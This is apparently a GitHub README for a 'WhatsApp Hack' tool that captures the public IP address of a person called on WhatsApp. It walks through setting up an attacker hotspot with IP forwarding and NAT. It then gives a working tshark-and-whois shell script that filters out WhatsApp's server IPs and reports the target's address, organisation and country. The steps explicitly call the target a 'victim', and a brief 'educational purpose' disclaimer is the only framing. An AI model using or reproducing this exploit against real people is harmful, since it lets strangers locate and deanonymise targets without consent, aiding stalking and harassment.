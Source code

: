 # New WhatsApp Hack! 
![](https://img.shields.io/github/license/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues-closed/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/Python-3-blue)
![](https://img.shields.io/github/forks/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/stars/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/last-commit/Sahil2rick/Whatsapp-hack)
[!(http://hits.dwyl.com/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/platform-Linux%20%7C%20KaliLinux%20%7C%20ParrotOs-blue)
  Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim ##

## Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

# Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
